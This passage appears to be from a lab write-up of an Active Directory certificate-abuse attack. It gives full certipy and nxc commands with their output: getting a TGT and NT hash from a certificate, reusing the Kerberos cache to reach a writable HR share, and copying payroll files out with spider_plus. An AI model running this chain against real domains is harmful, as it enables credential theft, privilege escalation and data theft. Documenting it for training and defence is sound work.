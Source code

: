     The KDC, when processing authentication with this certificate, adds the SID of `HR Access` (linked via the Issuance Policy OID) to the TGT.
    ```bash
    certipy auth -pfx 't.howard.pfx' -dc-ip 127.0.0.1
    [*] Certificate identities:
    [*]     SAN UPN: 't.howard@lab.local'
    [*]     Security Extension SID: 'S-1-5-21-2722926128-310879818-2353593629-1120'
    [*] Using principal: 't.howard@lab.local'
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saving credential cache to 't.howard.ccache'
    [*] Wrote credential cache to 't.howard.ccache'
    [*] Trying to retrieve NT hash for 't.howard'
    [*] Got hash for 't.howard@lab.local': aad3b435b51404eeaad3b435b51404ee:5f695056521900e992a6366aabb446a3
    export KRB5CCNAME=t.howard.ccache #Export the .ccache to our klist.
    ```
    Leverage new privileges with Kerberos to list shares. The "HR" share is now accessible with READ,WRITE permissions.
    <details>
    <summary><code>nxc smb 127.0.0.1 --shares -k --use-kcache</code> — Click to expand</summary>

    ```bash
    nxc smb 127.0.0.1 -d lab.local --shares -k --use-kcache --kdcHost 127.0.0.1
    SMB         127.0.0.1       445    LAB-DC01         [*] Windows 10 / Server 2019 Build 17763 (name:LAB-DC01) (domain:lab.local) (signing:True) (SMBv1:False)
    SMB         127.0.0.1       445    LAB-DC01         [+] lab.local\t.howard from ccache
    SMB         127.0.0.1       445    LAB-DC01         [*] Enumerated shares
    SMB         127.0.0.1       445    LAB-DC01         Share           Permissions     Remark
    SMB         127.0.0.1       445    LAB-DC01         -----           -----------     ------
    SMB         127.0.0.1       445    LAB-DC01         ADMIN$                          Remote Admin
    SMB         127.0.0.1       445    LAB-DC01         C$                              Default share
    SMB         127.0.0.1       445    LAB-DC01         HR              READ,WRITE
    SMB         127.0.0.1       445    LAB-DC01         IPC$            READ            Remote IPC
    SMB         127.0.0.1       445    LAB-DC01         NETLOGON        READ            Logon server share
    SMB         127.0.0.1       445    LAB-DC01         SYSVOL          READ            Logon server share
    ```
    </details>
    
    Confirmed access to the HR share. Exfiltrating contents using NXC's `spider_plus` module.
    ![NXC Spider Plus Exfiltrating HR Share](https://github.com/user-attachments/assets/62c65338-1bf2-4f1c-9596-54090991c01e) <!-- Updated Alt Text -->

*   **Accessing Sensitive Data (Listing Exfiltrated Files):**
    ```bash
    ls /root/.nxc/modules/nxc_spider_plus/127.0.0.1/HR -l
    total 32
    -rw-rw-r-- 1 root root 7488 Jun  1 12:25  Contracts.xlsx
    -rw-rw-r-- 1 root root 7488 Jun  1 12:25 'payroll 2024.xlsx'
    -rw-rw-r-- 1 root root 7488 Jun  1 12:25 'payroll 2025.xlsx'
    -rw-rw-r-- 1 root root 7488 Jun  1 12:25 'Single Central Record.xlsx'
    ```
<details><summary><strong>My Thoughts & Observations (Phase 3)</strong></summary></details>
